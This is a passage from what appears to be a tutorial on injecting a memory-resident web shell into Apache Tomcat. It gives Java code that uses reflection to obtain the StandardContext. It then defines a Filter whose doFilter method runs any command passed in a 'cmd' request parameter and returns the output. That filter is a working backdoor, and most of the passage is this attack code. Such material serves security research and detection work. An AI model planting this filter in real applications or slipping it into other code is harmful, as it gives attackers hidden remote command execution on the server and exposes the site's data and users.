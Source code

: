 ### Get standardContext
`standardContext` is mainly responsible for managing the loading and uninstallation of `session`, `cookies`, and `Servlet`, so it is saved in many places in `Tomcat`. If we can directly obtain `request`, we can use the following method to directly obtain `context`. At startup, Tomcat creates a ServletContext object for each `Context`, representing a `Context`, so that `ServletContext` can be converted into `StandardContext`.

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appContext = servletContext.getClass().getDeclaredField("context");
appContext.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);

Field stdContext = applicationContext.getClass().getDeclaredField("context");
stdContext.setAccessible(true);
StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
```

<div align=center><img src="./images/25.png"></div>

### Create Filter
To directly implement the `Filter` instance in the code, three important methods need to be rewrite: `init`, `doFilter`, and `destory`.

```java
Filter filter = new Filter() {

    @Override
    public void init(FilterConfig filterConfig) {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

        HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
        if (httpServletRequest.getParameter("cmd") != null) {
            InputStream inputStream = Runtime.getRuntime().exec(httpServletRequest.getParameter("cmd")).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
            String output = scanner.hasNext() ? scanner.next() : "";
            servletResponse.getWriter().write(output);
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
};
```

